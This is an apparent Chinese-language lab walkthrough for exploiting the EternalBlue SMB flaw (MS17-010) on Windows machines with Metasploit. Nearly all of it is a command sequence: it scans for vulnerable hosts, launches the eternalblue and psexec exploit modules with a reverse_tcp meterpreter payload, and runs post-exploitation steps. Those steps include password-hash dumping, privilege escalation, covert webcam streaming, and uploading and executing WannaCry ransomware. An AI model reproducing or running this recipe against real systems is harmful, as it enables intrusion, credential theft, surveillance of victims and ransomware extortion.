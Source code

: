 # 永恒之蓝-漏洞利用
## 环境
宿主机:	192.168.43.152 \
kali:	192.168.43.1 \
win32:	192.168.43.3（防火墙允许文件与打印机共享) \
win64:	192.168.19.2（防火墙允许文件与打印机共享)

## 主机发现
`nmap -n -p445 --script smb-vuln-ms17-010 192.168.19.154 --open` \
也可以用 \
`nmap -n -p445 192.168.43.2` \
`>nmap ms17-010`    定向扫描,发现端口开放并存在ms17-010 漏洞

## 使用msf框架攻击win64
`msfconsole` /进入msf> \
`version` /确保MS框架版本在 4.14.17以上,否则请apt-get install \
 \
search search ms17_010 /漏洞模块路径查询，搜索到了 4 个相关的插件： \
`auxiliary/admin/smb/ms17_010_command` \
`auxiliary/scanner/smb/smb_ms17_010` \
`exploit/windows/smb/ms17_010_eternalblue` \
`exploit/windows/smb/ms17_010_psexec` \
其中前2个插件是auxiliary下的，属于辅助验证程序,用来扫描的。3和4是exploit下的,用来攻击。 \
 \
注意到,msf的模块目录是在/usr/share/metasploit-framework/modules \
`use exploit/windows/smb/ms17_010_eternalblue`   /调用攻击模块 \
`options` /查看参数,并设置： \
`set RHOST 192.168.43.2` /设定攻击目标  \
`show payloads` /查看详细信息 \
`set payload windows/x64/meterpreter/reverse_tcp` /配置攻击载荷  \
`set LHOST 192.168.43.1` /设置操作机地址,即kali本机地址 \
`exploit` /发起攻击,也可以用`run` \
出现win -success!就成功了。

## 可以试试以下操作，或者help
`getuid，sysinfo` /查看系统信息 \
`webcam_list` /看看被控制的电脑有没有摄像头,如果有用webcam_stream命令可以打开摄像头监控 \
`route` /查看路由表 \
`screenshot` /桌面截图，很卡 \
`shell` /打开命令行，然后可以ipconfig/whoami/net user \
`ps` /看看开了哪些杀毒软件，内网一致 \
`kill` \
`hashdump` \
`getsystem` \
提权 \
`upload wcry/wcry.ext c:\` \
`upload wcry/FILE_ID.DIZ c:\` \
`execute -f c:\wcry.exe` \
上传和执行勒索病毒

## 使用msf框架攻击win32
`use exploit/windows/smb/ms17_010_psexec` \
`set RHOST 192.168.43.3` \
`set payload windows/meterpreter/reverse_tcp` \
`show options` /查看设置好的参数 \
`set LHOST 192.168.43.1` \
`set SMBUser aleecy` /32位机的账号 \
`set SMBPass 0` /32位机的密码 \
`exploit`


## 更多参考：
http://www.sqlsec.com/2018/03/smb.html \
https://blog.csdn.net/zmeixuan/article/details/77587370 \
http://www.freebuf.com/articles/system/132274.html

## 清理重载msf：
`/etc/init.d/postgresql restart` \
`reload_all`
